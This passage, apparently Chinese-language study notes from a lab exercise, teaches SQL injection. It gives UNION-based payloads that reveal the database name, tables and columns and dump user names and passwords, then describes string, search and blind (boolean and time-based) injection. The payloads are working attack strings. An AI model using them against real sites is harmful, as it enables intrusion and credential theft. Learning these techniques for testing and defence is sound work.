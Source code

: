 ## 4.获取当前数据库

- 抓包更改参数 id 为 1 union select 1,database() #

## 5.获取数据库中的表

- 抓包更改参数 id 为 1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #

## 6.获取表中的字段名

- 抓包更改参数 id 为 1 union select 1,group_concat(column_name) from information_schema.columns where table_name='`users`' #
    >注意符号转义

## 7.获取数据

- 抓包修改参数 id 为 1 or 1=1 union select group_concat(`user_id`,`first_name`,`last_name`),group_concat(`password`) from users #

# 字符型

- 在数字型的基础上，1后面加上'

# 搜索型
- %创造闭合

# 盲注

## 手工盲注的步骤

- 1.判断是否存在注入，注入是字符型还是数字型
- 2.猜解当前数据库名 二分法
- 3.猜解数据库中的表名
- 4.猜解表中的字段名
- 5.猜解数据

## 盲注分为两类：
- 1.布尔盲注　
    - 布尔很明显Ture跟Fales，也就是说它只会根据你的注入信息返回Ture跟Fales，也就没有了之前的报错信息。

    - 基于 boolean 盲注主要表现：
        - 1. 没有报错信息
        - 2. 不管是正确的输入,还是错误的输入,都只显示两种情况(我们可以认为是0或者1)
        - 3. 在正确的输入下,输入 and 1=1/and 1=2 发现可以判断

- 2.时间盲注　 
    - 界面返回值只有一种,true 无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。
